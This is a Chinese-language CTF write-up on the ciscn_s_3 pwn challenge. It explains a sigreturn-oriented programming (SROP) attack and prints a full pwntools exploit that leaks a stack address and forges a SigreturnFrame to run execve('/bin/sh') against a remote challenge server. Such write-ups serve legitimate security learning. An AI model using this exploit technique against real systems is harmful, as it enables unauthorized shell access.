



【基础SROP】【sig_return】ciscn_s_3
Thursday, December 29, 2022
2分钟阅读时长
原题链接
checksec查看程序架构
$ checksec --file ciscn_s_3
[*] '/home/peterl/security/workspace/ciscn_s_3/ciscn_s_3'
Arch: amd64-64-little
RELRO: Partial RELRO
Stack: No canary found
NX: NX enabled
PIE: No PIE (0x400000)
ida查看程序伪代码


这里有两个syscall用于读写，已经很明显地暗示要用syscall了
接下来它又提供了一个gadget函数，明显是要为sig_return做好前置工作（设置RAX）

那么我们的思路就很简单了，先调用sig_return，这样它就会把接下来我们安排在栈上的上下文作为接下来要恢复的上下文，这样我们就可以安排系统的寄存器了
构建exp
首先第一次运行的时候会打印出来rbp的地址，为了让程序再运行一遍，我们将ret地址设置为vul函数的地址：
stack_offset = -0x118
write_offset = 0x20
p.clean()
p.send(b"a"*0x10 + pg(m_elf.sym['vuln']))
p.recv(write_offset)
bin_bash_addr = u64(p.recv(8)) + stack_offset
通过调试时的偏移计算，我们就获得了栈地址
然后我们就可以通过pwntools的自动化工具构建sig_return后恢复的上下文了
sig_ret_gadget = 0x4004DA
syscall_ret = 0x400517
# 使用pwntools的自动化工具构建我们想要的上下文
frame = SigreturnFrame()
frame.rax = constants.SYS_execve
frame.rdi = bin_bash_addr
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall_ret
success(str(frame))
然后按sig_return+上下文的格式发过去就可以了：
p.send(b"/bin/sh\x00"*0x2 + pg(sig_ret_gadget) + pg(syscall_ret) \
+ bytes(frame))
完整exp
from pwn import p64, p32, u32, u64
from LibcSearcher import LibcSearcher
pss: bool = True
fn: str = "./ciscn_s_3"
libc_name:str = "/lib/x86_64-linux-gnu/libc.so.6"
port: str = "28554"
if_32: bool = False
if_debug:bool = False
pg = p32 if if_32 else p64
context(log_level="debug", arch="i386" if if_32 else "amd64", os="linux")
if pss:
p = remote("node4.buuoj.cn", port)
else:
if if_debug:
p = gdb.debug(fn, "break main")
else:
p = process(fn)
# 两个elf，注意libc的版本
m_elf = ELF(fn)
libc = ELF(libc_name)
stack_offset = -0x118
write_offset = 0x20
p.clean()
p.send(b"a"*0x10 + pg(m_elf.sym['vuln']))
p.recv(write_offset)
bin_bash_addr = u64(p.recv(8)) + stack_offset
p.clean()
sig_ret_gadget = 0x4004DA
syscall_ret = 0x400517
# 使用pwntools的自动化工具构建我们想要的上下文
frame = SigreturnFrame()
frame.rax = constants.SYS_execve
frame.rdi = bin_bash_addr
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall_ret
success(str(frame))
p.send(b"/bin/sh\x00"*0x2 + pg(sig_ret_gadget) + pg(syscall_ret) \
+ bytes(frame))
p.clean()
p.interactive()